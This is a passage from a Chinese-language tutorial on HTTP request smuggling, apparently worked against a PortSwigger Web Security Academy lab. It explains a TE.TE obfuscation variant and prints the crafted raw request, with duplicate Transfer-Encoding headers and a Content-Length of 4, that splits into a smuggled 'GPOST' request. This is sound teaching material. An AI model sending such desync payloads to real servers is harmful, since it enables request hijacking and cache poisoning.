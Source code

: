 这里同上一个场景一样，需要在最后添加两个 CRLF：

```plain
0\r\n
\r\n
```

我们就可以得到如下图的响应：

[![](assets/1698897445-312a3d9168d4ae80303395afe5c08dea.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123002425.png)

我们可以看到这里是用了两个 TE 字段，并且第二个 TE 字段值非标准值，这里 Front 选择对第一个 TE 进行优先处理，整个请求则为正常请求，会转发给 Backend 服务器，而 Backend 服务器以第二个 TE 进行优先处理，而第二个 TE 值非正常，则会取 CL 字段进行处理，这样这个请求就会因为 CL 字段设置的值 4 而被拆分为两个请求。

第一个请求：

```plain
POST / HTTP/1.1
Host: acfd1f201f5fb528809b582e004200a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=9swxitdhJRXeFhq77wGSU7fKw0VTiuzQ
Cache-Control: max-age=0
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: nothing

12
```

第二个请求：

```plain
GPOST / HTTP/1.1

0
```

这样就发送了一个无法识别的 HTTP Method GPOST 请求。

## Attack Surface
